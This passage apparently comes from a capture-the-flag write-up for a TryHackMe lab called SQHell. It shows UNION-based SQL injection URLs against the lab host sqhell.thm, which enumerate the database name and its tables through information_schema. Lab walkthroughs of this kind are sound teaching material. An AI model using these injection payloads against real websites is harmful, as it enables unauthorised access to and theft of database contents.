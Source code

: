 The UNION ALL statement is used to show us which column appears where on the page. We want the output to be visible, otherwise we won’t be able to see the data we retrieve. We can see column three is the main section of the page, so plenty of room for our output. We’ll use that one for all our subsequent commands.

Let’s get the database name:

```
http://sqhell.thm/post?id=99 union all select 1,2,database(),4
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we want the tables in the database:

```
http://sqhell.thm/post?id=99 union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=database()
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
